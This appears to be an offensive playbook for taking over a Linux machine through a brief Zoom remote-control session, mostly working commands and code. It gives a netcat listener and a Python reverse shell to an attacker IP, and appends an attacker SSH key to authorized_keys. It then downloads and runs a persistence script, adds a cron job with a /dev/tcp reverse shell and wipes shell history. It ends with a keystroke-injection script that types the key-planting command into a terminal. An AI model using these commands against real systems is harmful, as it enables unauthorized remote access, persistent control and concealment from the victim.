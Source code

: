 ## Foothold

1. Listen for reverse shell (Attacker)

        nc -lvnp 4444


2. Serve auxiliary files on python HTTP server (Attacker)

        python3 -m http.server

3. Launch reverse shell (Victim)

        python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    Or

        echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMWsaYMfynllFnvDF7H37hVv6l3QPLjdSBQj2WyXHr0H" >> ~/.ssh/authorized_keys



## Persistence 


### Load persistence script

        wget http://192.168.5.11:8000/victim/per.sh

        chmod +x ./per.sh

        ./per.sh

This will do the following:


1. Add attacker's SSH key to  authorized_keys 

- If necessary create the needeed folders and files and update their permissions.


2. Load reverse shell script for cron job and a linux system enumeration script.    


3. Add a cron job to run periodically to provide us another method of persistence 

- Could also be used to start persistent logging capabilities.

        (crontab -l ; echo "* 6 * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.11/4444 0>&1'")|crontab 2> /dev/null



4. Erase shell history 

        echo "" > ~/.bash_history







## Access/Capabilities

- User level access to everything

- Only needs a few seconds of remote control on the Zoom application

- Further exploitation and data extraction can be done with more time and finesse
















keyboard = Controller()
sleep(3)
keyboard.press(Key.ctrl_l)
keyboard.press(Key.alt_l)
keyboard.press('t')
keyboard.release(Key.ctrl_l)
keyboard.release(Key.alt_l)
keyboard.release('t')
sleep(1)
keyboard.type('echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMWsaYMfynllFnvDF7H37hVv6l3QPLjdSBQj2WyXHr0H" >> ~/.ssh/authorized_keys')
sleep(2)
keyboard.press(Key.enter)
keyboard.release(Key.enter)
sleep(1)
keyboard.type('exit')
sleep(1)
keyboard.press(Key.enter)
keyboard.release(Key.enter)
